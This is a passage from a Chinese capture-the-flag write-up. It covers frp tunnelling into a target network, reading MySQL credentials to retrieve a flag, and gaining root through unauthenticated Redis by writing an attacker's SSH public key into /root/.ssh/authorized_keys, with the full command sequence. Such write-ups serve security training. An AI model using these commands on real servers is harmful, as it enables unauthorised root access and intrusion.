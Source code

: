 在自己的vps上修改frps.ini:

```
[common]
bind_port = 7002
```

分别运行`/app/tools/frpc -c frpc.ini`和`./frps -c frps.ini`,成功实现内网穿透。在靶机目录下可以看到mysql的用户名密码以及数据库：

![image-20231003232150197](https://ttycp3.oss-cn-beijing.aliyuncs.com/img/image-20231003232150197.png)

在自己vps上连接数据库：

```
mysql -h 127.0.0.1 -P 3309 -u root -p messageboard
```

拿到第二段flag：

```
-Are-YOu-myS0L-MasT3r?-
```

利用redis未授权写入ssh公钥登录,分别执行以下命令，[参考资料](https://blog.csdn.net/m0_46576302/article/details/126766457)：

```
1.在攻击机上创建ssh密钥对

ssh-keygen

2.创建1.txt，把攻击机的公钥写入1.txt,并传入目标redis服务的缓存

(echo -e "\n\n";cat id_rsa.pub;echo -e "\n\n") > 1.txt 

cat 1.txt | redis-cli -h 127.0.0.1 -p 6380

3.修改redis的配置

redis-cli -h 127.0.0.1 -p 6380

config set dir /root/.ssh

conifg set dbfilename authorized_keys 

save

quit

4.ssh免密登录

ssh -i id_rsa -p 30 root@127.0.0.1
```

根目录拿到第三段flag:

```
P@sSW0Rd-F0r-redis-Is-NeceSsary}
```
